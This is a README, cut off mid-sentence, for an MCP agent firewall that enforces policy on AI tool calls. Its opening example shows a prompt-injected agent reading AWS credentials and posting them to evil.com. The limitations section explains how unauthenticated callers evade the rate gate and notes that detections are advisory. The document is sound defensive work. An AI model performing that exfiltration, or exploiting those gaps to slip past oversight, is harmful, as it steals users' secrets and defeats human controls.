

<div align="center">
  <br>
  
  <br><br>
  <p>
    <a href="https://github.com/paolovella/vellaveto/releases"></a>
    <a href="https://github.com/paolovella/vellaveto/actions/workflows/ci.yml"></a>
    <a href="https://github.com/paolovella/vellaveto/stargazers"></a>
    <a href="LICENSING.md"></a>
    <a href="https://www.rust-lang.org/"></a>
    
    
    <a href="docs/SECURITY_GUARANTEES.md"></a>
    <a href="formal/"></a>
    <a href="https://modelcontextprotocol.io/specification/2025-11-25"></a>
    <a href="https://genai.owasp.org/resource/owasp-top-10-for-agentic-applications-for-2026/"></a>
    <a href="https://github.com/paolovella/vellaveto/actions/workflows/provenance-sbom.yml"></a>
    <a href="https://github.com/paolovella/vellaveto/actions/workflows/codeql.yml"></a>
  </p>
  <p>
    <a href="#the-problem">The Problem</a> &middot;
    <a href="#consumer-shield--protect-users-from-ai-providers">Shield</a> &middot;
    <a href="#quick-start">Quick Start</a> &middot;
    <a href="#how-it-compares">Compare</a> &middot;
    <a href="#security">Security</a> &middot;
    <a href="#limitations">Limitations</a> &middot;
    <a href="#roadmap">Roadmap</a> &middot;
    <a href="#architecture">Architecture</a> &middot;
    <a href="#documentation">Docs</a>
  </p>
</div>

---

**VellaVeto is an agent interaction firewall** — the runtime boundary where AI agents interact with tools, services, and users. Every side-effecting decision crosses this boundary: tool calls are evaluated against policy, irreversible actions require bound approvals, sessions are isolated by design, and every verdict is recorded in a tamper-evident audit trail with a structured [ACIS decision envelope](docs/SECURITY_MODEL.md). Deploy it as a stdio proxy, HTTP gateway, or consumer-side privacy shield.

## The Problem

AI agents can read files, make HTTP requests, and execute commands. Without centralized controls:

```
Agent receives prompt injection
  → reads ~/.aws/credentials
  → POST https://evil.com/exfil?data=AKIA...
  → no audit trail, no one notices
```

This is not hypothetical. The MCP ecosystem has accumulated [dozens of published CVEs](https://www.practical-devsecops.com/mcp-security-vulnerabilities/) in roughly the last 15 months: command injection in `mcp-remote` ([CVE-2025-6514](https://nvd.nist.gov/vuln/detail/CVE-2025-6514)), path traversal in Anthropic's official Git MCP server ([CVE-2025-68143/44/45](https://github.com/anthropics/anthropic-cookbook/security/advisories)), [SANDWORM](docs/THREAT_MODEL.md) npm supply-chain worms injecting rogue MCP servers into AI configs, and [SmartLoader](https://blog.morphisec.com/smartloader-malware-targets-manufacturing) trojans distributed as MCP packages. [Thousands of MCP servers](https://invariantlabs.ai/blog/mcp-security-notification-tool-poisoning-attacks) have been found exposed with no authentication.

VellaVeto is the runtime boundary between AI agents and tool servers. Every side-effecting call is evaluated against policy before execution. No policy match, missing context, or evaluation error results in `Deny`. Every decision is logged in a tamper-evident chain with a structured ACIS decision envelope.

```
Agent attempts: read_file("/home/user/.aws/credentials")
  → VellaVeto evaluates against policy
  → Deny { reason: "path blocked by credential-protection rule" }
  → Logged with SHA-256 chain + Ed25519 checkpoint
  → Agent never sees the file contents
```

## Consumer Shield — Protect Users from AI Providers

Enterprise security is half the story. When AI providers process tool calls through their infrastructure, they see your credentials, browsing patterns, and work context. The [Consumer Shield](examples/presets/consumer-shield.toml) is a user-side deployment mode that protects individuals from mass data collection — regardless of what the provider's terms of service say.

```
You type: "Email the Q3 numbers to alice@example.com from the box at 10.2.14.7"
  → Shield intercepts before the provider sees it
  → PII replaced: "Email the Q3 numbers to [PII_EMAIL_A3F91C4D8B2E7061]
                   from the box at [PII_IPV4_7C40E1B9D6A2F358]"
  → Provider processes the sanitized request
  → Response comes back, Shield restores the originals
  → Encrypted local audit records what was shared and what was stripped
```

Placeholder tokens are random, not sequential. A sequential placeholder is a
desanitization oracle: an attacker who can guess `[PII_EMAIL_2]` can probe the
restore path for a value they never saw.

**What the Shield does:**

| Layer | What It Protects | How |
|---|---|---|
| **PII sanitization** | Emails, US SSNs, US phone numbers, credit card numbers (Luhn-checked), IPv4 addresses, JWTs, AWS key IDs | Bidirectional replacement with `[PII_{CAT}_{TOKEN}]` placeholders (16 random hex chars) — provider never sees originals |
| **Encrypted local audit** | Full interaction history | Every intercepted request and response, recorded before sanitization so you can see what was stripped. XChaCha20-Poly1305 + Argon2id, optional Merkle chaining, stored on your machine, not the provider's. Requires `audit_mode = "local"` and a passphrase |
| **Session isolation** | Cross-session correlation | Each session gets its own PII mapping table and a fresh credential, so a placeholder or credential from one session is meaningless in another. Enable with `shield.session_isolation` |
| **Credential vault** | API keys, tokens passed through tool calls | Blind credential binding — provider sees the tool call but not the credential value |
| **Stylometric resistance** | Writing style fingerprinting | Whitespace, punctuation, emoji, and filler word normalization so your writing patterns are not identifiable |
| **Warrant canary** | Legal compulsion transparency | Verification for Ed25519-signed canaries. Issuance and publication are not yet shipped — see [Warrant canary](docs/SECURITY_MODEL.md#warrant-canary) for what a canary does and does not establish |

**Scope of PII detection.** The built-in patterns are the seven listed above and
are **US-centric** — there is no IBAN, NHS number, EU national ID, passport, or
non-US phone format, and **file paths and personal names are not detected**.
Non-US and site-specific PII must be supplied as `CustomPiiPattern` entries. See
[Security Model](docs/SECURITY_MODEL.md) for the pattern list.

The Shield runs locally as `vellaveto-shield` and is licensed under **MPL-2.0** — no enterprise license required.

```bash
vellaveto-shield --config consumer-shield.toml -- npx @anthropic/claude-desktop
```

**Platform support.** Release binaries are built for **Linux (x86_64, aarch64,
musl) and macOS (x86_64, aarch64)**. There is no Windows target: the code is not
platform-specific and would largely compile, but it is neither built nor tested
there, the child-process environment allowlist passes POSIX variable names only,
and the `0o600` permission hardening applied to the audit log and checkpoint
files is a no-op outside Unix. CI runs on Linux.

## What It Does

VellaVeto enforces five boundary invariants at the runtime surface where agents act on the world:

1. **No tool invocation without capability** — every side-effecting call is mediated through a shared evaluation pipeline, producing a structured ACIS decision envelope regardless of transport
2. **Delegated capability is monotonic** — capability grants can only attenuate, never escalate; formally verified in Verus and Coq
3. **Irreversible actions require signed approvals** — bound, replay-safe, single-use approvals with session and fingerprint binding
4. **No cross-session leakage, coherent cross-session work** — session isolation is a product invariant, not best-effort; credential rotation, context window isolation, and stylometric normalization enforce unlinkability
5. **Untrusted content cannot silently drive privileged actions** — [control/data channel separation](docs/CHANNEL_SEPARATION.md): untrusted tool responses auto-taint the session regardless of detection, intent scope declarations constrain action space, and behavioral sequence analysis catches anomalous patterns. These three layers compose into detection-independent defense

These invariants are enforced by concrete runtime capabilities:

- **Policy engine** — glob/regex/domain matching, parameter constraints, time windows, call limits, per-tool quotas, secret substitution, declarative policy templates, Cedar-style ABAC, Wasm plugins. <5ms P99 evaluation.
- **Threat detection** — injection, tool squatting, rug pulls, schema poisoning, DLP, memory poisoning, multi-agent collusion, semantic output contracts, trust-tier containment, contagion controls, response metadata stripping, delegation chain enforcement, jailbreak patterns, token leakage, system prompt leak, browser agent attacks, output anomalies, denial-of-wallet, cascade failure detection, exfiltration path analysis, server fingerprint drift, goal drift, A2A integrity, NHI overpermission, agent behavioral baseline, prompt template injection, ETDI signature verification, MINJA defense, and [control/data channel separation](docs/CHANNEL_SEPARATION.md) (source-class tainting, intent scope, behavioral sequence analysis). 30+ detection layers, not just regex. Injection and DLP **block** on a finding by default in the shipped proxies; most of the other layers are **advisory** — they scan, write an ACIS audit entry, and allow the call. Detection coverage and blocking coverage are different numbers, and [Limitations](#limitations) says which is which.
- **Identity and access** — OAuth 2.1/JWT, OIDC/SAML, RBAC, capability delegation, DPoP (RFC 9449) on the HTTP proxy's OAuth path, non-human identity lifecycle.
- **Topology discovery** — auto-discover MCP servers, tools, and resources. Detect drift, tool shadowing, and namespace collisions.
- **Audit and compliance** — tamper-evident logs (SHA-256 + Merkle + Ed25519), ACIS decision envelopes, ZK proofs, OTel-compatible span generation, evidence packs mapped to EU AI Act, SOC 2, DORA, NIS2, NIST AI 600-1, ISO 42001, and 6 more frameworks. Annex IV documentation, Article 73 incident reports, and FRIA data export generators.
- **Consumer shield** — all of the above, running user-side. See [Consumer Shield](#consumer-shield--protect-users-from-ai-providers).

**Core guarantees:**
- **Complete mediation** — request and response paths evaluated before tool execution and before model return
- **Fail-closed** — errors, missing policies, and unresolved context all produce `Deny`
- **Tamper-evident audit** — SHA-256 hash chain + Merkle proofs, with structured ACIS decision envelopes on every verdict. Ed25519 signed checkpoints are **opt-in**: enable them, set a persistent `VELLAVETO_SIGNING_KEY` (otherwise a fresh key is generated per process and checkpoints do not survive a restart), and pin `VELLAVETO_TRUSTED_KEY` when verifying. Timestamps come from the signing host's clock — signatures attest authorship, not time. See [Signing and timestamps](docs/SECURITY_MODEL.md#signing-and-timestamps).
- **Content-bound attestation** — HMAC-SHA256 signed scan results on every response, cryptographically binding injection/DLP/schema verdicts to the response content hash. Consumers verify with `SDK.verify_attestation()`. Set `VELLAVETO_ATTESTATION_SECRET` to enable.
- **Public security contract** — [Security Guarantees](docs/SECURITY_GUARANTEES.md) + [Assurance Case](docs/ASSURANCE_CASE.md) with reproducible evidence

## Quick Start

### Instant Protection

Pick a protection level and go — no config file needed:

```bash
# Install — one command, no Rust toolchain needed (~3 seconds, macOS + Linux).
# The script SHA-256-verifies every binary against the release checksums file.
curl -fsSL https://raw.githubusercontent.com/paolovella/vellaveto/main/scripts/install.sh | sh

# Prefer to review first? Download, read, then run:
#   curl -fsSL -o install.sh https://raw.githubusercontent.com/paolovella/vellaveto/main/scripts/install.sh
#   less install.sh && sh install.sh
#
# Other options:
#   cargo install vellaveto-proxy                            # From source (~2 min, needs Rust)
#   gh release download v6.1.1 --repo paolovella/vellaveto   # Manual download

# Shield — credentials, SANDWORM defense, exfil blocking, injection/DLP
vellaveto-proxy --protect shield -- npx @modelcontextprotocol/server-filesystem /tmp

# Fortress — shield + system files, package configs, sudo approval, memory tracking
vellaveto-proxy --protect fortress -- python -m mcp_server

# Vault — deny-by-default, safe reads allowed, writes require approval
vellaveto-proxy --protect vault -- ./my-server
```

| Level | Default | What it blocks | For whom |
|-------|---------|----------------|----------|
| `shield` | Allow | Credentials, SANDWORM (AI config injection), exfil domains, git hooks, system files, dangerous commands, injection, DLP | Anyone — just works |
| `fortress` | Allow | Shield + package config tampering, privilege escalation approval, memory poisoning detection, shadow agent detection | Developers who want more |
| `vault` | **Deny** | Everything not explicitly allowed; source reads + git reads allowed, writes require approval | Maximum security |

<p align="center">
  
</p>

### Setup Wizard

```bash
npx create-vellaveto
```

### Custom Config

```bash
vellaveto-proxy --config policy.toml -- /path/to/mcp-server
```

### HTTP Reverse Proxy (deployed MCP servers)

```bash
# vellaveto-http-proxy ships with the one-command installer above.
VELLAVETO_API_KEY=$(openssl rand -hex 32) vellaveto-http-proxy \
  --upstream http://localhost:8000/mcp \
  --config policy.toml \
  --listen 127.0.0.1:3001
```

### Docker

```bash
docker pull ghcr.io/paolovella/vellaveto:latest
docker run -p 3000:3000 \
  -v /path/to/config.toml:/etc/vellaveto/config.toml:ro \
  ghcr.io/paolovella/vellaveto:latest
```

### Use with Claude Desktop

Edit `~/Library/Application Support/Claude/claude_desktop_config.json` (macOS) or `~/.config/Claude/claude_desktop_config.json` (Linux) — Windows is not a supported target, see [Platform support](#consumer-shield--protect-users-from-ai-providers):

```json
{
  "mcpServers": {
    "filesystem": {
      "command": "vellaveto-proxy",
      "args": [
        "--protect", "shield",
        "--", "npx", "-y",
        "@modelcontextprotocol/server-filesystem", "/home/user/projects"
      ]
    }
  }
}
```

### Use with Cursor

Edit `.cursor/mcp.json` in your project directory:

```json
{
  "mcpServers": {
    "filesystem": {
      "command": "vellaveto-proxy",
      "args": [
        "--protect", "fortress",
        "--", "npx", "-y",
        "@modelcontextprotocol/server-filesystem", "."
      ]
    }
  }
}
```

### Use with Windsurf

Edit `~/.codeium/windsurf/mcp_config.json`:

```json
{
  "mcpServers": {
    "filesystem": {
      "command": "vellaveto-proxy",
      "args": [
        "--protect", "fortress",
        "--", "npx", "-y",
        "@modelcontextprotocol/server-filesystem", "."
      ]
    }
  }
}
```

Replace `shield`/`fortress` with `vault` for maximum security. The same pattern works with **any MCP client** — wrap the server command with `vellaveto-proxy --protect <level> --`.

### Use with OpenAI Codex CLI

Edit `~/.codex/config.json`:

```json
{
  "mcpServers": {
    "filesystem": {
      "command": "vellaveto-proxy",
      "args": [
        "--protect", "shield",
        "--", "npx", "-y",
        "@modelcontextprotocol/server-filesystem", "."
      ]
    }
  }
}
```

### Use with VS Code (Copilot / Cline / Roo Code)

Add to your VS Code `settings.json`:

```json
{
  "mcp": {
    "servers": {
      "filesystem": {
        "command": "vellaveto-proxy",
        "args": [
          "--protect", "fortress",
          "--", "npx", "-y",
          "@modelcontextprotocol/server-filesystem", "."
        ]
      }
    }
  }
}
```

See [docs/QUICKSTART.md](docs/QUICKSTART.md) for more providers (Zed, JetBrains, Amazon Q, Continue) and SDK integration guides (Anthropic, OpenAI, LangChain, LangGraph, CrewAI).

### VellaVeto Desktop (native app)

One-click protection for all your AI tools — no manual config editing needed.

- **Auto-detection** — finds Claude Desktop, Claude Code, Cursor, Windsurf, VS Code (Copilot/Cline/Roo Code), OpenAI Codex CLI, Zed, Continue, Amazon Q Developer, JetBrains AI
- **One-click protect** — rewrites MCP config to wrap servers with `vellaveto-proxy --protect <level>`
- **Activity feed** — real-time JSONL event stream showing every allow/deny decision
- **Risk scanning** — flags broad filesystem access, unprotected `npx` commands, missing protection

Built with [Tauri v2](https://tauri.app/) (Rust backend + React frontend). Source: [`packages/vellaveto-desktop/`](packages/vellaveto-desktop/).

## How It Works

Every side-effecting decision crosses VellaVeto's runtime boundary:

```
                    ┌──────────────────────────────────┐
  AI Agent ────────>│     VellaVeto Runtime Boundary    │────────> Tool Server
                    │                                  │
                    │  1. Parse action + fingerprint   │
                    │  2. Match policy (fail-closed)   │
                    │  3. Evaluate constraints + ABAC  │
                    │  4. Check approval (if required) │
                    │  5. Allow / Deny verdict         │
                    │  6. ACIS decision envelope       │
                    │  7. Tamper-evident audit log      │
                    └────────────────┬─────────────────┘
                                     │
                    Audit trail: SHA-256 chain +
                    ACIS envelopes + Ed25519 signatures
```

The same mediation pipeline runs across all transports (stdio, HTTP, WebSocket, gRPC, SSE) — transport parity is enforced, not assumed.

## Architecture



Lower crates never depend on higher crates. The boundary contract (`vellaveto-types` ACIS envelope) flows down from the leaf; runtime surfaces (`proxy`, `http-proxy`, `shield`) enforce the same mediation pipeline at the top. `vellaveto-operator` is standalone (kube-rs, no internal deps). License tiers are documented separately in [LICENSING.md](LICENSING.md).

## Boundary Capabilities

**Which of these block, and which only report.** The enforcement path is the policy
engine (`Verdict::Deny`), approval gates on irreversible actions, TopologyGuard's
fail-closed denial of unknown tools, and injection and DLP scanning — the latter two
block on a finding by default in the shipped proxies (`detection.block_on_injection` and
`dlp.block_on_finding` both default to `true`, and `vellaveto-proxy` and
`vellaveto-shield` pass that config through to the relay). Most of the remaining
detection layers are **advisory**: they scan, emit an ACIS audit entry, and allow the
call. They are observability, not a block, and the table below is a coverage map rather
than a list of things that deny.

| | What It Covers | Docs |
|---|---|---|
| **Policy Engine** | Glob/regex/domain matching, parameter constraints, time windows, call limits, per-tool quotas, secret substitution, declarative policy templates, action sequences, Cedar-style ABAC, Wasm plugins. Pre-compiled patterns, <5ms P99, decision cache. | [Policy](docs/POLICY.md) |
| **Threat Detection** | 30+ detection layers: injection (Aho-Corasick + NFKC + obfuscation decode), tool squatting, rug pulls, schema poisoning, DLP, memory poisoning, multi-agent collusion, semantic output contracts, contagion controls, jailbreak patterns, token leakage, system prompt leak, browser agent attacks, output anomalies, denial-of-wallet, cascade failures, exfiltration path analysis, server fingerprint drift, goal drift, A2A integrity, NHI overpermission, agent baseline, prompt template injection, ETDI, MINJA, and containment-aware audit context. Maps to [OWASP Agentic Top 10](https://genai.owasp.org/resource/owasp-top-10-for-agentic-applications-for-2026/). | [Threat Model](docs/THREAT_MODEL.md) |
| **Channel Separation** | Source-class auto-tainting (untrusted tool responses taint session regardless of detection), intent scope declarations (constrain tools/sinks per session with auto-narrowing on taint), behavioral sequence analysis (5 deterministic detectors for read→exfil, privilege escalation, tool diversity spikes, novel tools, action clustering). Three composing layers for detection-independent defense. | [Channel Separation](docs/CHANNEL_SEPARATION.md) |
| **Identity & Access** | OAuth 2.1/JWT, OIDC/SAML (IdP-initiated), RBAC (4 roles, 14 perms), ABAC with forbid-overrides, capability delegation, DPoP (RFC 9449) on the HTTP proxy's OAuth path, non-human identity lifecycle. | [IAM](docs/IAM.md) |
| **Approval Gates** | Bound, replay-safe, single-use approvals with session + fingerprint binding. Irreversible actions classified and gated. Human-readable fact summaries, lineage drift invalidation, structured containment context, trust/taint summaries, and risk scores preserved through pending, approve, and deny flows. | [Security Model](docs/SECURITY_MODEL.md) |
| **Discovery** | Auto-discover MCP servers, tools, resources via topology graph. Detect drift, tool shadowing, namespace collisions. Topology guard as pre-policy filter. | [Architecture](#architecture) |
| **Audit & Compliance** | Tamper-evident logs (SHA-256 + Merkle + Ed25519), ACIS decision envelopes, ZK proofs (Pedersen + Groth16), OTel-compatible span export, Annex IV documentation generator, Article 73 incident reports with cross-regulation deadlines, FRIA data export, evidence packs for 12 frameworks. | [Compliance](docs/COMPLIANCE.md) |
| **Session Isolation** | Per-session PII mapping tables, credential rotation, context window isolation, and stylometric normalization, so a placeholder or credential from one session is meaningless in another. Correlation headers can be withheld from upstream (`shield.strip_privacy_headers`). Traffic padding is not yet wired — its framing needs peer negotiation. | [Consumer Shield](examples/presets/consumer-shield.toml) |
| **Consumer Shield** | User-side PII sanitization, encrypted local audit (XChaCha20-Poly1305), credential vault, warrant canary. All boundary enforcement running client-side. | [Consumer Shield](examples/presets/consumer-shield.toml) |
| **Deployment** | 6 modes: HTTP, stdio, WebSocket, gRPC, gateway, consumer shield. K8s operator (3 CRDs), Helm chart, Terraform provider, VS Code extension. | [Deployment](docs/DEPLOYMENT.md) |

## Security

### Internal Adversarial Auditing

VellaVeto is continuously exercised by internal adversarial audit sweeps mapped to the [OWASP Top 10 for Agentic Applications](https://genai.owasp.org/resource/owasp-top-10-for-agentic-applications-for-2026/). These are not third-party audits: they are recurring internal red-team exercises where we attack the running system, document findings, land fixes, and add regressions. The current sweep history and methodology live in the [changelog](CHANGELOG.md) and [security guarantees](docs/SECURITY_GUARANTEES.md).

- **Fail-closed everywhere** — empty policy sets, missing parameters, lock poisoning, capacity exhaustion, and evaluation errors all produce `Deny`
- **Zero `unwrap()` in library code** — all error paths return typed errors; panics reserved for tests only
- **Broad automated coverage** — Rust, SDK, integration, benchmark, and fuzz suites back the core policy, proxy, and audit paths
- **Post-quantum ready** — Hybrid Ed25519 + ML-DSA-65 (FIPS 204) signatures on audit checkpoints and rotation manifests, feature-gated behind `pqc-hybrid`. Not applied to evidence packs, warrant canaries, agent cards, or capability tokens.

### Formal Verification

We use formal methods to prove — not just test — critical security properties:

| Tool | What's Proven | Files |
|---|---|---|
| **TLA+** | Policy engine determinism, ABAC forbid-override correctness, workflow constraint enforcement, task lifecycle safety, cascading failure recovery, source-taint containment (ST1-ST4), intent-scope containment (IS1-IS4), sequence containment (SQ1-SQ4) | [formal/tla/](formal/tla/) |
| **Verus** | Deductive verification on actual Rust (ALL inputs via Z3 SMT): verdict fail-closed, path normalization, rule override correctness, DLP buffer safety, approval scope/consumption binding, transport sanitization, capability delegation, NHI delegation + transitive revocation, evidence pack signing, session warm restart, approval lineage drift, and refinement obligations | [formal/verus/](formal/verus/) |
| **Kani** | Bounded model checking harnesses on actual Rust covering IP validation, cache safety, capability delegation, rule checking, constraint evaluation, task lifecycle, IDNA normalization, Unicode homoglyph handling, lock-poisoning safety, webhook dedup, and approval drift | [formal/kani/](formal/kani/) |
| **Lean 4** | Fail-closed property (errors → Deny), evaluation determinism, path normalization idempotence | [formal/lean/](formal/lean/) |
| **Coq** | Theorem-proved properties across fail-closed behavior, determinism, ABAC forbid-override, capability delegation attenuation, circuit breaker, and task lifecycle | [formal/coq/](formal/coq/) |
| **Alloy** | Capability delegation cannot escalate privileges | [formal/alloy/](formal/alloy/) |

Formal verification spans TLA+, Verus, Kani, Lean 4, Coq, and Alloy. Current counts are generated by `make evidence`; `make evidence-check` fails when this block drifts from `target/evidence/evidence.json`.

<!-- VELLAVETO:EVIDENCE:START -->
| Evidence item | Count |
|---|---:|
| Rust tests | 13113 |
| SDK tests | 977 |
| Total tests tracked by manifest | 14090 |
| Verus verified items | 1046 |
| Kani proof harnesses | 124 |
| TLA+ specs | 13 |
| Lean theorems | 32 |
| Coq theorems | 45 |
| Alloy assertions | 10 |
| Formal evidence items tracked by manifest | 1270 |

Test counts are source-attribute inventories, not counts of tests that
passed in a given run. Every counted Rust test is executed by CI: those
behind a non-default feature run in the `feature-matrix` job in
`.github/workflows/ci.yml`, the rest in the main workspace test job.
<!-- VELLAVETO:EVIDENCE:END -->

The live property catalog is maintained in [formal/README.md](formal/README.md); the trust boundary and assumptions are documented in [docs/TRUSTED_COMPUTING_BASE.md](docs/TRUSTED_COMPUTING_BASE.md).

### Previously Documented Limitations, Since Closed

Four limitations documented in earlier releases have since been closed. This is a
record of those four only — it is not a claim that none remain. Current ones are in
[Limitations](#limitations) below.

- **Cross-call DLP** — `SessionDlpTracker` with overlap buffers detects secrets split across multiple tool calls within a session (~150 bytes state per field). See [`cross_call_dlp.rs`](vellaveto-mcp/src/inspection/cross_call_dlp.rs).
- **Grammar-validated injection** — JSON Schema `pattern` constraints compiled to DFAs provide a positive security model (Phase 72). The existing Aho-Corasick pre-filter remains as defense-in-depth. Covered by MCPSEC A14 regression tests (ours, not an independent check).
- **TLS termination** — Built-in rustls-based TLS/mTLS via the [`vellaveto-tls`](vellaveto-tls/) crate. Supports SPIFFE identity extraction, post-quantum key exchange policies, and automatic ALPN negotiation. External reverse proxy remains optional.
- **Independent verification** — [Bug bounty program](SECURITY_BOUNTY.md) (HackerOne + Huntr), [OSTIF audit scope](docs/OSTIF_AUDIT_SCOPE.md), Codecov integration, and OpenSSF Best Practices Badge enrollment.

Full details: [Security Guarantees](docs/SECURITY_GUARANTEES.md) | [Threat Model](docs/THREAT_MODEL.md) | [Assurance Case](docs/ASSURANCE_CASE.md) | [ACIS Contract](docs/ACIS_CONTRACT.md)

### MCPSEC Benchmark

We wrote [MCPSEC](mcpsec/), an open security benchmark for MCP gateways (Apache-2.0), defining 10 security properties and 116 reproducible attack test cases across 17 attack classes, scored on **two axes**: security, and availability — the share of legitimate traffic allowed through. Both matter, because a gateway that denies every request scores highly on security by construction and is useless.

**We also wrote the gateway, and the pass criteria.** Whatever VellaVeto scores here is worth what a self-graded exam is worth: a regression result showing the suite still passes, not independent validation. The test selection reflects the attacks this project chose to think about — protocol replay, for instance, has no class in the suite at all. No third-party gateway has been benchmarked, and we do not publish estimated scores for other products.

With that caveat, the current reference result is [mcpsec/results/vellaveto-v7.0.json](mcpsec/results/vellaveto-v7.0.json), measured against the shipped [`vault`](examples/presets/vault.toml) preset:

| Axis | Score |
|---|---|
| Security | **94.9% (Tier 4: Comprehensive)** |
| Availability | **63.6%** |
| Tests | 103/116 passed |

The result file records the config, its SHA-256, the commit and both commands, so it can be reproduced. The nine security failures are configuration and surface rather than absent capability: A10.4 needs rate limits, which `vault` does not configure; A14.1–A14.4 need `schema_poisoning.enabled`, which defaults to `false`; A13.1–A13.4 are cross-call secret splitting, a session-scoped defence that lives in the MCP relay and cannot apply to the stateless `/api/evaluate` endpoint this benchmark targets.

The earlier published figure of 100/100 (Tier 5) recorded no config, no command and no commit, and re-running the benchmark across all 18 shipped presets did not reproduce it on any of them. [That file](mcpsec/results/vellaveto-v6.1.json) is retained as a historical record and marked superseded.

What the benchmark is actually good for is that it is reproducible. Run it against any MCP gateway, including ours, and check the result yourself:

```bash
cargo run -p mcpsec -- --target http://localhost:3000 --format markdown
```

See [mcpsec/README.md](mcpsec/README.md) for properties, attack classes, and methodology.

## Limitations

Known weaknesses, in the order a reviewer should weigh them. This list is maintained
deliberately: several items below are the reason specific claims elsewhere in this README
are hedged the way they are.

### Assurance scope

- **No third-party security audit has been performed.** The [bug bounty](SECURITY_BOUNTY.md)
  (HackerOne + Huntr) is enrolled and [docs/OSTIF_AUDIT_SCOPE.md](docs/OSTIF_AUDIT_SCOPE.md)
  is an application scope document. Neither is a completed external review.
- **The adversarial audit sweeps are internal.** They are our own red-team exercises, so we
  chose both the attacks and the pass criteria. They find real bugs; they are not independent
  assurance.
- **MCPSEC is self-authored**, benchmark and gateway alike — see the caveat in
  [MCPSEC Benchmark](#mcpsec-benchmark). No third-party gateway has been measured.
- **Formal verification covers named properties, not the system.** What is proven, what is
  trusted, and what is explicitly *not* verified is in
  [docs/TRUSTED_COMPUTING_BASE.md](docs/TRUSTED_COMPUTING_BASE.md), including trusted
  components, abstraction boundaries, and sound over-approximations. Two scope limits worth
  being concrete about: the **entire dependency tree is trusted, not verified** — that
  document lists rustc/LLVM, tokio, serde, rustls, ring and others as assumed correct — and
  the Python, TypeScript, Go and Java SDKs are outside the reach of these Rust-based tools
  altogether.

### Supply chain

- **`cargo-vet` is change-detection, not review.** `supply-chain/audits.toml` contains **zero
  first-party audits**; all **650** dependency entries are *exemptions* pinned to an exact
  version. What the gate actually enforces is that a new version must be re-blessed
  deliberately — nobody has reviewed those crates' source.
- **One advisory is suppressed, and CI now enforces the reason.** `RUSTSEC-2026-0459`
  (CVE-2026-119375, 6.8 medium, bundled C SQLite) is ignored in `.cargo/audit.toml`, because
  `libsqlite3-sys` reaches `Cargo.lock` via `sqlx-sqlite` while only `sqlx`'s Postgres
  features are enabled, so the vulnerable C is never compiled or shipped. The two older
  entries in that file are suppressed on the same grounds.

  This used to end "nothing currently detects it", which was true and is no longer: the
  `Guard the libsqlite3-sys advisory suppression still applies` step in `ci.yml` fails the
  job if the crate ever enters the compiled graph. It was verified in both directions —
  passing as things stand, and failing with the dependency path printed when `sqlx`'s
  `sqlite` feature is switched on.

  One correction while checking: this bullet previously claimed
  `cargo tree -i libsqlite3-sys --all-features --target all` reports *"did not match any
  packages"*. It does not — that form prints *"nothing to print"* and **exits 0**, whether
  or not the crate is there. The *"did not match any packages"* message (exit 101) comes
  from the default-feature form. The distinction matters: a guard written around the exit
  status of the command this bullet named would have passed unconditionally.
- **One npm advisory is suppressed with an expiry.** `GHSA-fc5q-39xc-vjpf`
  (CVE-2026-112366, high, picomatch ReDoS) is ignored in `site/osv-scanner.toml`. There is
  no fix to take: 4.0.7 is the latest version picomatch has published and the advisory
  covers every release. It reaches the site only through `astro build` tooling, and with
  `output: 'static'` the deployed artifact is plain HTML, CSS and JS. The ignore carries
  `effectiveUntil`, which is enforced — once the date passes the finding is reported again
  and the gate fails — so unlike an open-ended suppression it cannot outlive its reasoning
  unnoticed.
- **Dependabot cannot land a Rust bump unaided.** Exemptions are exact-version and Dependabot
  never edits `supply-chain/config.toml`, so every cargo update arrives failing the
  supply-chain gate and needs a manual companion edit.

### Monitoring

- **Most detection layers are advisory, not enforcing.** The enforcement path is the
  policy engine, approval gates, TopologyGuard, and injection/DLP blocking. The ~30
  modules wired in during the March 2026 activation sweep run in advisory mode: their
  findings are audited and allowed. Promoting them to enforcement is the largest item on
  the [Roadmap](#roadmap) — each needs a config gate, a denial path, transport parity and
  tests. Read "30+ detection layers" as coverage, not as thirty things that deny.
- **The four detections that now *can* deny are off by default.** Denial-of-wallet,
  jailbreak patterns, token/credential leakage and memory-query poisoning had no config
  gate at all until `governance.block_on_denial_of_wallet`,
  `governance.block_on_jailbreak`, `governance.block_on_token_leakage` and
  `governance.block_on_memory_poisoning`. All four default to **false**, because they
  previously could not block and defaulting them on would change what an existing
  deployment does on upgrade. So a stock install still detects-and-forwards on all four;
  an operator has to turn each on. Both proxies log a startup warning naming any detection
  that is active but not blocking, so the gap is visible rather than silent. They do now
  run on all four transports, so a gate that is turned on applies everywhere.
- **Denial-of-wallet rate state survives session eviction only for authenticated callers.**
  The per-session tracker is destroyed with its session, so forcing eviction — by idling
  past the session timeout or pushing the store to its capacity limit — used to reset the
  caller's own rate window and defeat the gate. On HTTP, WebSocket and gRPC a global window
  keyed on the authenticated principal (attested `agent_identity`, else the OAuth subject)
  now closes that. **It does not close for unauthenticated callers**: nothing identifies
  them across session rotation, so they get the per-session window only, and the bypass
  stands. Client IP was considered as a fallback and rejected — spoofable, shared behind
  NAT, rotatable from a pool, and it would throttle unrelated callers sharing an address.
  The stdio relay is unaffected either way: one session per process, so there is no
  eviction to exploit.
- **Neither hardening preset enables the four gates.** `fortress.toml` and
  `sandworm-hardened.toml` leave all four at their default `false`, so choosing the most
  hardened preset does not turn on the hardening that exists. `block_tool_drift`, the
  governance gate these follow, is absent from every preset too.
- **A newly published advisory is only caught by the scheduled runs.** This is the real
  gap, and it is narrower than the claim that used to stand here — which said the gates do
  not run on push and that a regression reaching `main` could go unflagged for a week. Both
  halves were wrong, and verified so rather than assumed:

  `ci.yml` runs on every push to `main` and on every pull request (`paths-ignore` skips
  docs-, site-, sdk-, helm- and Markdown-only changes), and two of its jobs are advisory
  gates: **Security Audit** runs `cargo audit` across the workspace trees and fails the job
